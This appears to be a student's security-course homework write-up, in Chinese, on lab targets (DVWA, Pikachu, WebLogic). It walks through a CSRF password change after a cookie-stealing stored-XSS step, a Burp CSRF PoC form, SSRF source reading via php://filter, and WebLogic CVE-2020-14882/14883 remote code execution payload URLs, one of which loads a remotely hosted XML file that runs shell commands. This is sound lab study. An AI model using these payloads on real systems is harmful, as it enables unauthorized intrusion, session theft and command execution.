










# 作业
## 作业1 - CSRF
### DVWA-High等级
- 身份
  - 攻击方：admin用户
  - 被攻击方：pablo用户
  - 使用pikachu的后台接收cookie的值,该后台的地址：192.168.0.90：8082
- 步骤一：admin用户向dvmaXSS存储型的留言板发送一条恶意代码
```js
<script>document.write('')</script>
```

- 当pablo用户查看留言板时，就会触发留言板上的恶意代码，将cookie值传到192.168.0.90：8082的后台中
- 得到cookie值：


- 步骤二：使用admin用户，在csrf的更改密码的地方使用burp抓包，将其中的cookie值更改，并删除token值


- 使用pablo重新登录，发现密码已成功更改为123


### 使用Burp生成CSRF利用POC
- 第一步，使用burp在有CSRF的页面抓包

- 使用burp生成POC页面

- 生成代码
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.0.90:8082/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="123" />
      <input type="hidden" name="phonenum" value="123" />
      <input type="hidden" name="add" value="123" />
      <input type="hidden" name="email" value="123" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
- 成功更改密码


## 作业2-SSRF
### SSRF（file_get_content），要求获取 ssrf.php 的源码
- 第一步使用php:filter构造请求url，并在其中加入base64编码，防止ssrf.php文件被解析


- 得到编码后的源代码
```
PD9waHAKLyoqCiAqIENyZWF0ZWQgYnkgcnVubmVyLmhhbgogKiBUaGVyZSBpcyBub3RoaW5nIG5ldyB1bmRlciB0aGUgc3VuCiAqLwoKCiRTRUxGX1BBR0UgPSBzdWJzdHIoJF9TRVJWRVJbJ1BIUF9TRUxGJ10sc3RycnBvcygkX1NFUlZFUlsnUEhQX1NFTEYnXSwnLycpKzEpOwoKaWYgKCRTRUxGX1BBR0UgPSAic3NyZi5waHAiKXsKICAgICRBQ1RJVkUgPSBhcnJheSgnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnJywnYWN0aXZlIG9wZW4nLCdhY3RpdmUnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnLCcnKTsKfQoKJFBJS0FfUk9PVF9ESVIgPSAgIi4uLy4uLyI7CmluY2x1ZGVfb25jZSAkUElLQV9ST09UX0RJUi4naGVhZGVyLnBocCc7CgoKCgoKCj8+CgoKPGRpdiBjbGFzcz0ibWFpbi1jb250ZW50Ij4KICAgIDxkaXYgY2xhc3M9Im1haW4tY29udGVudC1pbm5lciI+CiAgICAgICAgPGRpdiBjbGFzcz0iYnJlYWRjcnVtYnMgYWNlLXNhdmUtc3RhdGUiIGlkPSJicmVhZGNydW1icyI+CiAgICAgICAgICAgIDx1bCBjbGFzcz0iYnJlYWRjcnVtYiI+CiAgICAgICAgICAgICAgICA8bGk+CiAgICAgICAgICAgICAgICAgICAgPGkgY2xhc3M9ImFjZS1pY29uIGZhIGZhLWhvbWUgaG9tZS1pY29uIj48L2k+CiAgICAgICAgICAgICAgICAgICAgPGEgaHJlZj0ic3NyZi5waHAiPjwvYT4KICAgICAgICAgICAgICAgIDwvbGk+CiAgICAgICAgICAgICAgICA8bGkgY2xhc3M9ImFjdGl2ZSI+5qaC6L+wPC9saT4KICAgICAgICAgICAgPC91bD4KICAgICAgICA8L2Rpdj4KICAgICAgICA8ZGl2IGNsYXNzPSJwYWdlLWNvbnRlbnQiPgoKICAgICAgICAgPGI+U1NSRihTZXJ2ZXItU2lkZSBSZXF1ZXN0IEZvcmdlcnk65pyN5Yqh5Zmo56uv6K+35rGC5Lyq6YCgKTwvYj4KICAgICAgICAgPHA+5YW25b2i5oiQ55qE5Y6f5Zug5aSn6YO95piv55Sx5LqO5pyN5Yqh56uvPGI+5o+Q5L6b5LqG5LuO5YW25LuW5pyN5Yqh5Zmo5bqU55So6I635Y+W5pWw5o2u55qE5Yqf6IO9PC9iPizkvYblj4jmsqHmnInlr7nnm67moIflnLDlnYDlgZrkuKXmoLzov4fmu6TkuI7pmZDliLY8L3A+CiAgICAgICAgICAgIOWvvOiHtOaUu+WHu+iAheWPr+S7peS8oOWFpeS7u+aEj+eahOWcsOWdgOadpeiuqeWQjuerr+acjeWKoeWZqOWvueWFtuWPkei1t+ivt+axgizlubbov5Tlm57lr7nor6Xnm67moIflnLDlnYDor7fmsYLnmoTmlbDmja48YnI+CiAgICAgICAgICAgIDxicj4KICAgICAgICAgICAg5pWw5o2u5rWBOuaUu+WHu+iAhS0tLS0tPuacjeWKoeWZqC0tLS0+55uu5qCH5Zyw5Z2APGJyPgogICAgICAgICAgICA8YnI+CiAgICAgICAgICAgIOagueaNruWQjuWPsOS9v+eUqOeahOWHveaVsOeahOS4jeWQjCzlr7nlupTnmoTlvbHlk43lkozliKnnlKjmlrnms5Xlj4jmnInkuI3kuIDmoLcKICAgICAgICAgICAgPHByZSBzdHlsZT0id2lkdGg6IDUwMHB4OyI+ClBIUOS4reS4i+mdouWHveaVsOeahOS9v+eUqOS4jeW9k+S8muWvvOiHtFNTUkY6CmZpbGVfZ2V0X2NvbnRlbnRzKCkKZnNvY2tvcGVuKCkKY3VybF9leGVjKCkKICAgICAgICAgICAgPC9wcmU+PGJyPgogICAgICAgICAgICDlpoLmnpzkuIDlrpropoHpgJrov4flkI7lj7DmnI3liqHlmajov5znqIvljrvlr7nnlKjmiLfmjIflrpooIuaIluiAhemihOWfi+WcqOWJjeerr+eahOivt+axgiIp55qE5Zyw5Z2A6L+b6KGM6LWE5rqQ6K+35rGCLDxiPuWImeivt+WBmuWlveebruagh+WcsOWdgOeahOi/h+a7pDwvYj7jgIIKPGJyPgogICAgICAgICAgICA8YnI+CgogICAgICAgICAgICDkvaDlj6/ku6XmoLnmja4iU1NSRiLph4zpnaLnmoTpobnnm67mnaXmkJ7mh4Lpl67popjnmoTljp/lm6AKCiAgICAgICAgPC9kaXY+PCEtLSAvLnBhZ2UtY29udGVudCAtLT4KICAgIDwvZGl2Pgo8L2Rpdj48IS0tIC8ubWFpbi1jb250ZW50IC0tPgoKCgo8P3BocAppbmNsdWRlX29uY2UgJFBJS0FfUk9PVF9ESVIgLiAnZm9vdGVyLnBocCc7Cgo/Pgo= 
```

- 解码后得到源码
```php
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "ssrf.php"){
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR.'header.php';


?>


<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="ssrf.php"></a>
                </li>
                <li class="active">概述</li>
            </ul>
        </div>
        <div class="page-content">

         <b>SSRF(Server-Side Request Forgery:服务器端请求伪造)</b>
         <p>其形成的原因大都是由于服务端<b>提供了从其他服务器应用获取数据的功能</b>,但又没有对目标地址做严格过滤与限制</p>
            导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据<br>
            <br>
            数据流:攻击者----->服务器---->目标地址<br>
            <br>
            根据后台使用的函数的不同,对应的影响和利用方法又有不一样
            <pre style="width: 500px;">
PHP中下面函数的使用不当会导致SSRF:
file_get_contents()
fsockopen()
curl_exec()
            </pre><br>
            如果一定要通过后台服务器远程去对用户指定("或者预埋在前端的请求")的地址进行资源请求,<b>则请做好目标地址的过滤</b>。
<br>
            <br>

            你可以根据"SSRF"里面的项目来搞懂问题的原因

        </div><!-- /.page-content -->
    </div>
</div><!-- /.main-content -->


<?php
include_once $PIKA_ROOT_DIR . 'footer.php';

?>

```
## 作业3：RCE
### 远程代码执行漏洞：Weblogic RCE。
- CVE-2020-14882
  - 使用`ip:7001/console/css/%252e%252e%252fconsole.portal`可以在不登录账号的情况下进入管理后台
    

- CVE-2020-14883
  - 创建一个xml文件
  ```xml
  <?xml version="1.0" encoding="UTF-8" ?>
  <beans xmlns="http://www.springframework.org/schema/beans"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://www.springframework.org/schema/beans
  http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
      <constructor-arg>
        <list>
          <value>bash</value>
          <value>-c</value>
          <value><![CDATA[touch /tmp/geektime1]]></value>
        </list>
      </constructor-arg>
    </bean>
  </beans>
  ```
  - 将文件放入DVWA的服务器中`http://192.168.0.90:8081/hackable/uploads/rce1.xml`
  - 构造payload链接
  ```
  http://192.168.0.88:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.0.90:8081/hackable/uploads/rce1.xml")
  ```
  - 访问链接后，查看Weblogic服务器可发现已经touch了一个geektime1的文件
  
  - XML文件中的CDATA文件内也可以写入其他linux命令执行！


- 利用方法2：
  - 构造如下URL
  ```
  http://192.168.0.88:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/geektime2');")
  ```
  
  - 查看后台，geektime2已成功创建

